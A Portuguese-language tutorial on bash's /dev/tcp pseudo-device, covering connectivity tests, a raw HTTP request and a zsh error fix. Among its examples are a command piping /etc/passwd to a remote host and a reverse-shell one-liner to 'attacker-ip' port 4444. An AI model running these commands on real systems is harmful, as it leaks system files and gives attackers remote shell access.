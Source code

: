 
---

O diretório **`/dev/tcp`** (e seu "irmão", **`/dev/udp`**) é uma interface especial no sistema operacional Linux e Unix-like que permite realizar conexões de rede diretamente a partir da linha de comando ou scripts **bash**, simulando comunicação de rede em nível básico.
Ele não é um diretório real, mas sim uma interface virtual que faz parte do sistema de arquivos **`/dev`**, que contém dispositivos especiais. A funcionalidade de **`/dev/tcp`** está disponível somente em **`bash`**, habilitada com suporte a **redirecionamento de dispositivos de rede**.

### **Como funciona o `/dev/tcp`?**

O `/dev/tcp` permite redirecionar E/S (entrada/saída) para um host remoto e uma porta usando a sintaxe:

```bash
/dev/tcp/<host>/<porta>
```

Isso pode ser usado para criar conexões de rede (TCP) ou testar conectividade sem precisar de ferramentas adicionais, como `nc`, ``ncat`` ou `telnet`.

### **Exemplo de uso prático do `/dev/tcp`**

1. **Testar conectividade com um host e porta:**

```bash 
echo "TESTE" > /dev/tcp/<host>/<porta>
```

- Se o host e a porta estiverem acessíveis, não haverá erro.
- Caso contrário, o comando retornará algo como:

```javascript
bash: /dev/tcp/<host>/<porta>: Connection refused
```

2. **Simular uma requisição HTTP:**

```bash
echo -e "GET / HTTP/1.1\r\nHost: google.com\r\n\r\n" > /dev/tcp/google.com/80
```

3. **Enviar arquivos:**

```bash
cat /etc/passwd > /dev/tcp/<host>/<porta>
```

4. **Conexão reversa:**

```bash
bash -i >& /dev/tcp/attacker-ip/4444 0>&1
```
OBS: Este comando redireciona o shell para a máquina do atacante na porta 4444. ``-i`` modo interativo do bash.

### Correção de possivel erro

ERRO:
```bash
zsh: no such file or directory: /dev/tcp/<host>/<porta>
```

### **Como resolver?**

O suporte a `/dev/tcp/` está disponível apenas no **Bash**, então basta rodar:

```bash
bash -c 'echo > /dev/tcp/8.8.8.8/53'
```

Isso testa a conectividade com o **servidor DNS do Google** na porta **53**.

Se precisar fazer isso com frequência, pode iniciar um terminal Bash digitando:

-> ``bash``
